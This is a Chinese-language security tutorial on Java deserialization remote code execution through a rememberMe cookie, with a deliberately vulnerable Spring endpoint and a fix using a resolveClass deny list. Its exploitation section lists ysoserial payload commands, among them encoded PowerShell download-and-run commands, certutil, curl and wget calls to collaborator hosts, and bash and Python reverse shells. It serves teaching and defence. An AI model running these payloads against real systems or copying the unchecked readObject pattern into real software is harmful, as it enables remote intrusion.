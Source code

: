 

# 一、漏洞原理

Serialization(序列化)：将java对象以一连串的字节保存在磁盘文件中的过程，也可以说是保存java对象状态的过程

deserialization(反序列化)：将保存在磁盘文件中的java字节码重新转换成java对象称为反序列化

Java程序使用ObjectInputStream对象的readObject方法将反序列化数据转换为java对象。但当输入的反序列化的数据可被用户控制，那么攻击者即可通过构造恶意输入，让反序列化产生非预期 的对象，在此过程中执行构造的任意代码。-
漏洞代码示例

    ......
    //读取输入流,并转换对象
    InputStream in=request.getInputStream();
    ObjectInputStream ois = new ObjectInputStream(in);
    //恢复对象
    ois.readObject();
    ois.close();
    

    Java程序使用ObjectInputStream对象的readObject方法将反序 列化数据转换为java对象。但当输入的反序列化的数据可被用户控 制，那么攻击者即可通过构造恶意输入，让反序列化产生非预期的 对象，在此过程中执行构造的任意代码。
    

核心代码：

    /**
     * java -jar ysoserial.jar CommonsCollections5 "open -a Calculator" | base64
     * Add the result to rememberMe cookie.
     * <p>
     * http://localhost:8080/deserialize/rememberMe/vuln
     */
    @RequestMapping("/rememberMe/vuln")
    public String rememberMeVul(HttpServletRequest request)
            throws IOException, ClassNotFoundException {
    
        Cookie cookie = getCookie(request, Constants.REMEMBER_ME_COOKIE);
    
        if (null == cookie) {
            return "No rememberMe cookie. Right?";
        }
    
        String rememberMe = cookie.getValue();
        byte[] decoded = Base64.getDecoder().decode(rememberMe);
    
        ByteArrayInputStream bytes = new ByteArrayInputStream(decoded);
        ObjectInputStream in = new ObjectInputStream(bytes);
        in.readObject();
        in.close();
    
        return "Are u ok?";
    }
    

    代码相对来说也比较简单使用Java程序中类ObjectInputStream的 readObject方法被用来将数据流反序列化为对象，如果流中的对象 是class，则它的ObjectStreamClass描述符会被读取，并返回相应 的class对象，ObjectStreamClass包含了类的名称及 serialVersionUID。 
    

# 二、利用方式

使用ysoserial.jar生成payload

    java -jar ysoserial.jar CommonsCollections5 "cmd /c calc" | base64 -w0  
     
     rememberMe=rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMam...
    

访问页面 [http://127.0.0.1:8080/deserialize/rememberMe/vuln](http://127.0.0.1:8080/deserialize/rememberMe/vuln)-
(ysoserial.jar是java反序列化工具 集，下载地址：https://github.com/angelwhu/ysoserial)-
ysoserial使用poc文档-
[https://book.hacktricks.xyz/pentesting-web/deserialization#java-http](https://book.hacktricks.xyz/pentesting-web/deserialization#java-http)

    # PoC to make the application perform a DNS req
    java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload
    
    # PoC RCE in Windows
    # Ping
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
    # Time, I noticed the response too longer when this was used
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c timeout 5" > payload
    # Create File
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
    # DNS request
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
    # HTTP request (+DNS)
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
    ## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
    ## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
    # Reverse Shell
    ## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"
    
    #PoC RCE in Linux
    # Ping
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload 
    # Time
    ## Using time in bash I didn't notice any difference in the timing of the response
    # Create file
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "touch /tmp/pwn" > payload
    # DNS request
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
    # HTTP request (+DNS)
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
    # Reverse shell
    ## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
    ## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"
    
    # Base64 encode payload in base64
    base64 -w0 payload
    

# 三、修复方式

修复方式是通过Hook resolveClass来校验反序列化的类

> 序列化数据结构可以了解到包含了类的名称及serialVersionUID 的ObjectStreamClass描述符在序列化对象流的前面位置，且在 readObject反序列化时首先会调用resolveClass读取反序列化的 类名，所以这里通过重写ObjectInputStream对象的 resolveClass方法即可实现对反序列化类的校验。这个方法最早 是由IBM的研究人员Pierre Ernst在2013年提出《Look-ahead Java deserialization》

## 修复代码

    /**
     * Check deserialize class using black list.
     * <p>
     * http://localhost:8080/deserialize/rememberMe/security
     */
    @RequestMapping("/rememberMe/security")
    public String rememberMeBlackClassCheck(HttpServletRequest request)
            throws IOException, ClassNotFoundException {
    
        Cookie cookie = getCookie(request, Constants.REMEMBER_ME_COOKIE);
    
        if (null == cookie) {
            return "No rememberMe cookie. Right?";
        }
        String rememberMe = cookie.getValue();
        byte[] decoded = Base64.getDecoder().decode(rememberMe);
    
        ByteArrayInputStream bytes = new ByteArrayInputStream(decoded);
    
        try {
            AntObjectInputStream in = new AntObjectInputStream(bytes);  // throw InvalidClassException
            in.readObject();
            in.close();
        } catch (InvalidClassException e) {
            logger.info(e.toString());
            return e.toString();
        }
    
        return "I'm very OK.";
    }
    

## 跟入后对应代码

    /**
     * 只允许反序列化SerialObject class
     *
     * 在应用上使用黑白名单校验方案比较局限，因为只有使用自己定义的AntObjectInputStream类，进行反序列化才能进行校验。
     * 类似fastjson通用类的反序列化就不能校验。
     * 但是RASP是通过HOOK java/io/ObjectInputStream类的resolveClass方法，全局的检测白名单。
     *
     */
    @Override
    protected Class<?> resolveClass(final ObjectStreamClass desc)
            throws IOException, ClassNotFoundException
    {
        String className = desc.getName();
    
        // Deserialize class name: org.joychou.security.AntObjectInputStream$MyObject
        logger.info("Deserialize class name: " + className);
    
        String[] denyClasses = {"java.net.InetAddress",
                                "org.apache.commons.collections.Transformer",
                                "org.apache.commons.collections.functors"};
    
        for (String denyClass : denyClasses) {
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
    
        return super.resolveClass(desc);
    }